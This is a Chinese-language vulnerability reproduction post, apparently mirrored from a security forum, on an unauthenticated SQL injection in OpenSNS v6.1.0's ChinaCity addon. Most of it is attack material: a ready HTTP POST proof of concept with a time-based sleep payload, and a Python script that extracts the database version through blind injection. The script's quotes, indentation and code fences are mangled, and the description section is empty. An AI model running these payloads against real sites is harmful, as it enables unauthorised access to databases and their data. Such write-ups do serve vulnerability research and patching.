





# OpenSNS v6.1.0 前台sql注入

> 原文：[https://www.zhihuifly.com/t/topic/3060](https://www.zhihuifly.com/t/topic/3060)

# OpenSNS v6.1.0 前台sql注入

## 一、漏洞简介

## 二、漏洞影响

OpenSNS v6.1.0

## 三、复现过程

#### vul url

> [http://0-sec.org/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html](https://www.t00ls.net/)


#### poc

```
POST /index.php?s=%2Fhome%2Faddons%2F_addons%2Fchina_city%2F_controller%2Fchina_city%2F_action%2Fgetcity.html HTTP/1.1
Host: 0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Content-Length: 116
Accept: */*
Cookie: 
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,und;q=0.7
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.95.131
Referer: http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/ucenter/config/index.html
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip `cid=0&pid%5B0%5D=%3D%28select%2Afrom%28select%2Bsleep%283%29union%2F%2A%2A%2Fselect%2B1%29a%29and+3+in+&pid%5B1%5D=3` 
```





Vulnerability file

Addons/ChinaCity/Controller/ChinaCityController.class.php:50



ThinkPHP/Library/Think/Db.class.php:772




#### exp

```
import requests
from requests import exceptions

url=“[http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html](http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html)”

header={‘X-Requested-With’:‘XMLHttpRequest’}

# proxies={‘http’:‘127.0.0.1:8080’}

flag=’’

for i in range(1,50):

for j in range(32,128):

try:

data={

‘cid’:0,

‘pid[0]’:"=(select if(ord(substr((select version()),{},1))={},sleep(10),0))AND 3 IN  ".format(i,j),

‘pid[1]’:3

}

# print data[‘pid[0]’]

r=requests.post(url,data=data,headers=header,timeout=5)

```
 except exceptions.Timeout :
        flag+=chr(j)
        print flag 
``` 
```

